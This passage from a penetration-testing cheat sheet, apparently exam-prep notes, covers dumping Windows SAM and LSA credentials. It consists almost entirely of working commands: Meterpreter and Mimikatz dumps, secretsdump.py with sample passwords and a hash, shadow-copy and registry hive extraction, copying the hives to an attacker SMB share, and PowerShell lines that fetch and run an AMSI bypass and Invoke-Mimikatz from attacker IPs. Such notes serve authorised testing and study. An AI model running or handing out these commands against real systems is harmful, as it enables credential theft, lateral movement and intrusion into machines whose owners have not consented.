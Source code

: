## Windows Specifics
### Credentials
#### Local (SAM)

    //SAM Database
            //local admin may not be enabled
        //Getting local Administrator SID:
            $env:computername
            [wmi] "Win32_userAccount.Domain='client',Name='Administrator'"
        //Getting SAM (as Admin):
            //*Method 1 (Meterpreter):
                hashdump
                mimikatz methods...
                *Or:
                    load kiwi
                    lsa_dump_secrets
                    lsa_dump_sam
                    creds_all
            //*Method 2 (remotely, if you have creds - SecretsDump.py - requires access to 445):
                secretsdump.py test.local/john:password123@10.10.10.1
                w/ hash:  secretsdump.py WORKGROUP/Administrator@10.1.1.1 -hashes aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0
                //MSF:  use auxiliary/scanner/smb/impacket/secretsdump; set rhosts 192.168.1.108; set smbuser administrator; set smbpass Ignite@987; exploit
            //Method 3 (Mimikatz):
                //via .exe or Invoke-Mimikatz.ps1
                # Local dumping of SAM secrets on the target
                    lsadump::sam
                # Offline dumping of SAM secrets from exported hives
                    lsadump::sam /sam:'C:\path\to\sam.save' /system:'C:\path\to\system.save'
                # Local dumping of LSA secrets on the target
                    lsadump::secrets
                # Offline dumping LSA secrets from exported hives
                    lsadump::secrets /security:'C:\path\to\security.save' /system:'C:\path\to\system.save'
                //Invoke-Mimikatz.ps1:
                    (new-object system.net.webclient).downloadstring('http://192.168.45.210/amsi.txt') | IEX
                    (New-Object System.Net.WebClient).DownloadString('http://192.168.45.210/Invoke-Mimikatz.ps1') | IEX
                    Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "log out.txt" "lsadump::sam" "exit"'
            //Manual Methods:
                //Method 1:
                    wmic shadowcopy call create Volume='C:\'
                    //confirm:  vssadmin list shadows
                    //get SAM:  copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\sam C:\users\offsec.corp1\Downloads\sam
                    //get encryption keys:   copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\system C:\users\offsec.corp1\Downloads\system
                //Method 2:
                    mkdir c:\temp && reg save hklm\sam C:\temp\SAM && reg save hklm\system C:\temp\SYSTEM
                    //Transfer Files:
                        impacket-smbserver share $(pwd) -smb2support
                        copy .\SAM \\192.168.45.215\share2 && copy .\SYSTEM \\192.168.45.215\share2
                //Method 6 - Copy-VSS.ps1:
                    //add to bottom:  Copy-VSS -DestinationDir C:\temp\
                    IEX(New-Object Net.Webclient).DownloadString('http://192.168.45.215/Copy-VSS.ps1')
            //Check for old/backup files: